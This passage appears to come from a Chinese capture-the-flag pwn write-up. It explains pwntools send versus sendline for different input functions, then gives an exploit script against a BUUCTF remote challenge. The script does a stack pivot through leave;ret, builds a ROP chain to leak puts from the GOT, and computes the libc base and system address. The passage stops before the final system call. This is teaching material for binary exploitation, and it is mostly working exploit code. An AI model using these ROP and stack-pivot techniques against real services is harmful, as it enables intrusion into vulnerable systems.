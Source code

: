 **但值得一提的是使用read函数，我们可以用send来发送数据，这样就可以确保万无一失**。

**如果是gets函数或者scanf函数**，我们没有办法选择，**只能使用sendline**，这两种函数只有遇见sendline发送的回车，才会停止读入。

**gets函数会清空缓冲区里的回车，而scanf则不会清空回车。因此scanf可能会因为没有清空回车的缘故，对之后的程序输入可能造成影响，但是如果gets函数溢出了数组限制的话，会异常的在输入的字符串结尾填上一个00存入栈中。此时的00也有可能会覆盖原本栈中的数据**，另外就是遇见fgets的话，也是没的选，只能用sendline

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",26741)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

bank=0x0000000000601080
leave_ret=0x0000000000400699
main=elf.symbols['main']
leak('main',main)
rdi_addr=0x0000000000400703
rsi_addr=0x0000000000400701
puts_got=0x0000000000601018
ret_addr=0x000000000040069A

puts_plt=0x00000000004004E0
leak('puts_plt',puts_plt)
ru("Ｗelcome to Stack bank,Tell me what you want\n")
pl = 'a'*0x60+p64(bank+0xd0)+p64(leave_ret)
s(pl)
#dbg()
ru("Done!You can check and use your borrow stack now!\n")
pl2='a'*0xd0+p64(0)+p64(rdi_addr)+p64(puts_got)+p64(puts_plt)+p64(main)
s(pl2)
puts=uu64(r(6))
leak('puts',puts)

libc_base=puts-libc.symbols['puts']
leak('libc_base',libc_base)
system=libc_base+libc.symbols['system']
```